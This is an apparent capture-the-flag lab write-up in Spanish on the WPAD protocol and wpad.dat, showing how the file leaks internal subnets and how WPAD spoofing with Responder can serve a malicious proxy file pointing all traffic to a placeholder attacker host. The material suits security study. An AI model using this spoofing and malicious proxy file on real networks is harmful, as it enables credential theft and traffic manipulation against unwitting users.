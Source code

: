 # **Análisis Avanzado de WPAD y el Archivo `wpad.dat`**

El protocolo WPAD y su archivo de configuración asociado, `wpad.dat`, constituyen una de las fuentes de inteligencia de red más valiosas durante una auditoría de seguridad. Comprender su funcionamiento es esencial para el reconocimiento y la posterior explotación.

## 1\. Fundamentos del Protocolo WPAD

**WPAD (Web Proxy Auto-Discovery Protocol)** es un mecanismo estándar diseñado para permitir que los clientes de una red (como los navegadores web) descubran y configuren automáticamente los ajustes del servidor proxy sin intervención manual del usuario.

El principal objetivo de WPAD es simplificar la administración de redes a gran escala. En lugar de configurar cada cliente individualmente, el administrador centraliza la lógica de conexión en un único archivo.

El proceso de descubrimiento se realiza típicamente de dos maneras:

1.  **Vía DNS (el método más común)**: El cliente intenta resolver el nombre de host `wpad` dentro de su dominio local (ej. `wpad.empresa.com`). Si tiene éxito, solicitará el archivo de configuración.
2.  **Vía DHCP**: El servidor DHCP puede informar a los clientes de la ubicación exacta del archivo de configuración durante el proceso de asignación de IP.

## 2\. El Archivo de Configuración: `wpad.dat`

El `wpad.dat` es un archivo de texto que contiene código JavaScript. Su estructura se basa en una única función obligatoria: `FindProxyForURL(url, host)`. El navegador ejecuta esta función para cada URL que el usuario solicita, y la función debe devolver una cadena de texto que indica cómo proceder.

Las directivas de retorno más comunes son:

  * **`"DIRECT"`**: Instruye al cliente para que se conecte directamente al servidor de destino, sin pasar por ningún proxy.
  * **`"PROXY proxy-servidor:puerto"`**: Instruye al cliente para que utilice el servidor proxy especificado. Es posible definir múltiples proxies para redundancia.

### Análisis Estructural del Archivo (Caso Práctico)

A continuación, se analiza el contenido del archivo `wpad.dat` obtenido del host `wpad.realcorp.htb`.

**Comando para obtener el archivo:**

```bash
proxychains4 -q curl wpad.realcorp.htb/wpad.dat
```

**Contenido del `wpad.dat`:**

```javascript
function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";

    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT";

    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT";

    return "PROXY proxy.realcorp.htb:3128";
}
```

## 3\. Inteligencia Obtenida del Análisis

La simple lectura de este archivo revela información crítica sobre la topología y las políticas de la red interna.

  * **Dominio Interno Principal**: La condición `dnsDomainIs(host, "realcorp.htb")` confirma que `realcorp.htb` es el dominio interno de la organización. Cualquier host que termine en `.realcorp.htb` es considerado parte de la red local.

  * **Segmentos de Red Interna**: Las condiciones `isInNet` exponen directamente los rangos de direcciones IP que son considerados como parte de la red interna.

      * `10.197.243.0/24`
      * `10.241.251.0/24`
        Esta información es de un valor incalculable, ya que permite dirigir los escaneos de red y los ataques de movimiento lateral a los segmentos correctos.

  * **Política de Enrutamiento de Tráfico**: La lógica del script define claramente la política de navegación de la empresa:

      * **Tráfico Interno**: Toda comunicación destinada a recursos dentro del dominio `realcorp.htb` o en las subredes identificadas se realiza de forma directa.
      * **Tráfico Externo (Internet)**: Cualquier otra petición, por defecto, debe ser enrutada a través del servidor proxy `proxy.realcorp.htb` en el puerto `3128`.

## 4\. Utilización de `wpad.dat` en un Pentest

### **Fase 1: Reconocimiento Pasivo**

Como se ha demostrado, analizar el `wpad.dat` es una técnica de reconocimiento pasivo de alto impacto. Permite construir un mapa preliminar de la red objetivo sin enviar un solo paquete a los rangos de IP internos.

### **Fase 2: Ataques Activos de Man-in-the-Middle (MitM)**

El protocolo WPAD es notoriamente vulnerable a ataques de suplantación en una red local. Si un atacante puede posicionarse en la misma red que los clientes, puede explotar el proceso de auto-descubrimiento.

1.  **Suplantar el Servidor WPAD**: Utilizando herramientas como **Responder**, un atacante puede envenenar las respuestas de los protocolos de resolución de nombres locales (LLMNR y NBT-NS). Cuando un cliente pregunte por `wpad`, el atacante responderá antes que el servidor legítimo, afirmando ser él.

2.  **Servir un `wpad.dat` Malicioso**: Una vez que el cliente se conecta al servidor del atacante, este le entrega un archivo `wpad.dat` modificado.

    ```javascript
    function FindProxyForURL(url, host) {
        // Enviar todo el tráfico al proxy del atacante
        return "PROXY <IP_ATACANTE>:8080";
    }
    ```

3.  **Interceptar y Manipular Tráfico**: Todo el tráfico web de las víctimas pasará a través del proxy del atacante. Esto le permite:

      * Capturar credenciales enviadas en texto claro (HTTP).
      * Realizar ataques de `SSL-stripping` para degradar conexiones seguras a inseguras.
      * Inyectar código malicioso en las respuestas web.

## 5\. Conclusión

El archivo `wpad.dat` es mucho más que un simple fichero de configuración. Para un pentester, es una hoja de ruta que detalla la estructura lógica y física de la red de una organización. Además, el protocolo WPAD subyacente representa un vector de ataque significativo para la intercepción de tráfico en entornos de red interna. Su análisis debe ser una prioridad en cualquier auditoría de seguridad.